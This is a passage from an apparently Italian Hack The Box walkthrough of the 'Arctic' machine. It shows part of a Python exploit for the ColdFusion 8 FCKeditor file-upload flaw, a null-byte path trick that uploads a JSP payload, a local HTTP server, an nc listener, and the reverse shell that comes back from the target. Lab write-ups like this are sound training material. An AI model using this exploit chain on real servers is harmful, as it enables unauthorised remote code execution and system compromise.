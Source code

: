 ```bash
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

Dove abbiamo il payload tiriamo su un sever per poterlo scaricare dalla macchina target

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# python -m http.server 80                                                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Con il seguente comando carichiamo il payload sulla macchina target

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# python2 arb-file-exploit.py 10.10.10.11 8500 shell.jsp 
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

Ci mettiamo in ascolto con nc

```
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

Richiamiamo il payload al indirizzo ce ci ha fornito lo script del RCE Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp

Otteniamo cosi una shell

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.11] 51613
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin> 
```
